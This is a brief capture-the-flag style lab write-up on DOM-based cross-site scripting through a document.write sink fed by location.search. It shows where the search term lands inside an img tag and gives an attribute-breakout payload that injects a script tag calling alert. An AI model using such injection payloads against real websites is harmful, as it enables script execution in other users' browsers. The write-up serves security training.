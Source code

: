 # Lab: DOM XSS in document.write sink using source location.search

 >This lab contains a DOM-based cross-site scripting vulnerability in the search query tracking functionality. It uses the JavaScript document.write function, which writes data out to the page. The document.write function is called with data from location.search, which you can control using the website URL.

>To solve this lab, perform a cross-site scripting attack that calls the alert function. 

Vulnerable area: search functionality

Write `123` into search bar and see where in the dom `123` is inserted

I found it here:

`<img src="/resources/images/tracker.gif?searchTerms=123">`

Escaped from img tag and create new script tag, calling an alert:

`"><script>onload=alert('hi')</script>`

Lab solved!